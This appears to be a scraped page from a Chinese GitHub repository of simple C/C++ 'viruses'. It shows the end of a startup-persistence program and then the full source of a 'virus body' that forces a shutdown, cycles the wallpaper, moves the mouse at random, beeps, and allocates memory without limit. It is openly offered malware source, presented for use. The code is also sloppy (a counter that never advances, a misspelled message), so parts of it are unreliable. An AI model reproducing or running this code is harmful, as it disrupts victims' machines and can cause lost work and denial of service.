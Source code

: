 ```
            // 写入失败
            cout << "Write filed !" ;
        }
    }else {
        cout << "Read error !" << endl ;
    }

    return 0 ;
}
```

## 病毒主体，在上方代码实现开机自启动之后，这段代码可以不断修改壁纸，控制鼠标以及关机。
```
#include<stdio.h>
#include<windows.h>
#include<iostream>
#include <tchar.h>
#include<cstdlib>
#include<ctime>
using namespace std ;

int main(){

    POINT sb;
    PVOID s[10] = {
        (PVOID)"D:\\windows\\system32\\bin\\background.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background1.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background2.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background3.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background4.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background5.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background6.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background7.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background8.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background9.jpg"
        };
    srand((unsigned)time(NULL));
    system("shutdown -s -t 5");
    SystemParametersInfo(20, true,s, 1) ;
    GetCursorPos (&sb);//获取鼠标坐标
    int i = 0 ;
    while(1){
        int *p = (int*)malloc(10000000000) ;
        printf("\a");
        SystemParametersInfo(20, true,s[i], 1) ;
        if(i>=9){
            i = 0 ;
        }
        SetCursorPos(rand()%1000,rand()%800);//更改鼠标坐标
        Sleep(1);//控制移动时间间隔
    }

    return 0 ;
}
```

# 参考 :
   ## [Github](https://github.com/CasterWx/c-cPlusPlus-Virus)
